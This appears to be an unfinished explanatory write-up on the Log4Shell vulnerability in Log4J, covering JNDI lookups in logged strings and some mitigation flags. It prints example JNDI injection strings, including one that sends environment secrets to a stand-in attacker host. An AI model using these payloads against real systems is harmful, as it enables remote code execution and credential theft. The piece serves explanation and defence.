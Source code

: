 # How did the Log4J vulnerability become the threat that it was?


## What is Log4J?
Log4J is a widely used open source java logging library originally written by Ceki Gülcü. It is used in most moderately sized Java projects. It can be used to track thing like error messages or debug messages, which are then stored or *logged*. Apache describes Log4J as follows:
> log4j is a tool to help the programmer output log statements to a variety of output targets.In case of problems with an application, it is helpful to enable logging so that the problem can be located. With log4j it is possible to enable logging at runtime without modifying the application binary. The log4j package is designed so that log statements can remain in shipped code without incurring a high performance cost. It follows that the speed of logging (or rather not logging) is capital.

> log4j is designed with three goals in mind: reliability, speed and flexibility. There is a tight balance between these requirements. We believe that log4j strikes the right balance.




## Why is Log4Shell a big deal?
Log4Shell (CVE-2021-44228) is a nickname for an severe vulnerability in Log4J. The vulnerability has existed since 2013, and was only "discovered" and privately disclosed to the [Apache Software Foundation](https://en.wikipedia.org/wiki/The_Apache_Software_Foundation) on 24 November 2021. According to the Common Vulnerability Scoring System ([CVSS](https://nvd.nist.gov/vuln-metrics/cvss)) this vulnerability scores a 10/10 for it's severity. This is because this vulnerability enables Remote Code Execution (RCE). Which allows hackers to be able to run any code on your machine. This is also why it is called Log4Shell, because it's almost like anyone can open a [Shell](https://datacarpentry.org/shell-genomics/01-introduction/) on any server that uses Log4J.

According to Snyk, an open source security platform, 60.8% of java projects that use Log4J use it indirectly. Which means that the project has libraries that in turn use Log4J. So even developers that can't directly see that they are using Log4J aren't safe from the vulnerability.
![image](https://user-images.githubusercontent.com/77112006/147350753-63dac8cd-8d3b-4244-ade5-ea239dde1b3c.png)
source: https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/

## How does Log4Shell work?
There are several factors, which together are responsible for the vulnerability. So first we'll have a look at some features wihtin Log4J, and then we'll illustrate how the vulnerability works.

### Logging expressions
Log4J allows developers to log expressions. See the code below
```java
logger.info("{} has logged in using id {}", map.get("Name"), user.getId());
```
In this example you're logging a string. And you're plugging the value that gets returned from ```map.get("Name")``` and ```user.getId()``` into that string. On itself, this isn't a problem.

### JNDI
Java Naming and Directory Interface (JNDI) is a java feature that allows distributed applications to look up services in an abstract, resource-independent way. Allowing a developer to store java objects somewhere, and then serialize them to their JVM. This is the way that distributed java application used to work, but this way of distributing has fallen out of fashion some time ago. Nevertheless, this features still remains in java today.

### JNDI lookup while logging expressions
In 2013, a cotributer made a change to Log4J that allowed the developer to do the above described JNDI lookups in a log message. making the code below possible
```java
logger.info("{} has logged in using id {}", "${jndi:ldap://logconfig/example/name}", user.getId());
```
This is the vulnerability. Let's say a vulnerable application logs a users input. A user could then input a string like ```${jndi:ldap://myserver/malicious_code}```. Log4J will see this and try to look up this JNDI. Which would then introduce a malicious java object into the JVM.  

## How did Log4Shell get discovered?


## What are the potential fixes for severe vulnerabilities like Log4Shell?
First of all, the are some simple mitigations which can stop some of the damage being done to your application. The first one is to disable lookups by setting the following flags to false.
```
com.sun.jndi.ldap.object.trustURLCodebase
com.sun.jdni.rmi.object.trustURLCodebase
```
This however won't stop your application from actually making the call. It only stops the contents of that call from doing anything. This still enables hackers to make your application leak it's environment variables, like in the code below
```java
${jndi:ldap://malicious_atacker:123/${env:ACCES_KEY_ID}/${env:SECRET_ACCES_KEY}}
```





![image](https://user-images.githubusercontent.com/77112006/147350117-701b817a-cda4-412c-b85e-89865f4fa72d.png)

## How did affected developers deal with it?

Sources:
- [Log4J Vulnerability (Log4Shell) Explained - for Java developers. (2021, 16 december). [Video]. YouTube.](https://www.youtube.com/watch?v=uyq8yxWO1ls&t=1037s&ab_channel=JavaBrains)
- [Tal, L. (2021, 20 december). The Log4j vulnerability and its impact on software supply chain security. Snyk. Geraadpleegd op 24 december 2021](https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/)
- [Apache log4j 1.2 - Frequently Asked Technical Questions. (z.d.). Apache. Geraadpleegd op 24 december 2021]( https://logging.apache.org/log4j/1.2/faq.html)
-  [Yan, Tao; Deng, Qi; Zhang, Haozhe; Fu, Yu; Grunzweig, Josh (10 December 2021). "Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)".](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
-  [NVD - Vulnerability Metrics. (z.d.). NVD. Geraadpleegd op 24 december 2021](https://nvd.nist.gov/vuln-metrics/cvss)
-  [What is JNDI? What is its basic use? When is it used? (2010, 6 december). Stack Overflow. Geraadpleegd op 27 december 2021](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)
